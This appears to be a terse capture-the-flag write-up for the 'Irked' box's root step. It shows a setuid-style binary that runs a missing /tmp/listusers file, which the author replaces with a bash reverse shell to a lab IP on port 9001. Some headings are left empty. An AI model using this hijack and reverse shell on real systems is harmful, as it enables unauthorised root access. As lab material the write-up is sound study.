

# 20 - Root

# Linpeas.sh



# /tmp/listusers

```bash
djmardov@irked:/$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           Jul  1 13:55 (:0)
djmardov pts/1        Jul  2 06:48 (10.10.14.9)
sh: 1: /tmp/listusers: not found
```

it looks like sh is trying to execute /tmp/listusers but it doesn't exist

# Reverse shell

```
djmardov@irked:/$ cat /tmp/listusers 
bash -c "bash -i >& /dev/tcp/10.10.14.9/9001 0>&1"
```

# Root

